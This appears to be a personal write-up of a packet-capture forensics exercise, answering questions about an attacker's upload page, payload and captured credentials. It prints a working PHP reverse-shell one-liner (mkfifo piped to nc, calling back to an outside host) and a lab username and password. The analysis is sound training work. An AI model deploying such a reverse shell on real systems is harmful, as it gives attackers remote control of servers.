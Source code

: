 1) What was the URL of the page they used to upload a reverse shell?
```
I looked for http POST requests.

We find one packet (#14) and the answer is found under http section > Full request URI > http://192.168.170.159/development/upload.php
```

2) What payload did the attacker use to gain access?
```
We know that the attacker sent http post to upload a php reverse shell (upload.php). We can use the http export function in wireshark to analyze.

File > Export > Objects > Http

After saving upload.php we can view the payload:

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

```


I filtered for tcp ack requests and followed the TCP stream from packet # 29 I can see the attacker used these credentials:
```
User:james
Password: whenevernoteartinstant
```

For questions 3-5 we find the answer in [[Attacker Bash History]]
